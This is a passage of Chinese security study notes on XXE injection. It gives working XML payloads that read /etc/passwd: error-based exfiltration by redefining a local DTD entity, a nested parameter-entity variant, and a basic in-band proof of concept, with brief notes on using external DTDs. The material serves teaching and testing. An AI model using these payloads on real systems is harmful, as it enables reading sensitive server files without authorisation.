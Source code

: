    ```
   <!DOCTYPE message [
   <!ENTITY % shell '
   <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
   <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; exfil SYSTEM &#x27;file:///invalid/&#x25;file;&#x27;>">
   &#x25;eval;
   &#x25;exfil;
   '>
   %shell;
   ]>
   1. 如果加%shell，在内部dtd中不报错，因为还没有展开解析%shell
   2. 如果是在外部的dtd中加载%shell，也不会报错
   ```

   ```
   <!DOCTYPE message [
   <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
   <!ENTITY % ISOamso '
   <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
   <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
   &#x25;eval;
   &#x25;error;
   '>
   %local_dtd;
   ]>
   1. 内嵌外解，docbookx.dtd中引用了%ISOamso;
   ```

2. 外部dtd解析权限更高，条件更加宽松，这才是XXE选择外部dtd的主要原因！

##### 引用外部dtd方式：

1. 直接doc引用

   ```
   <!DOCTYPE note SYSTEM "note.dtd">
   ```

2. 外部实体引用

   ```
   <!DOCTYPE doc [
     <!ENTITY % ext SYSTEM "external.dtd">
     %ext;
   ]>
   ```

## 场景POC：

##### 1、普通参数外部实体，读取敏感文件

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
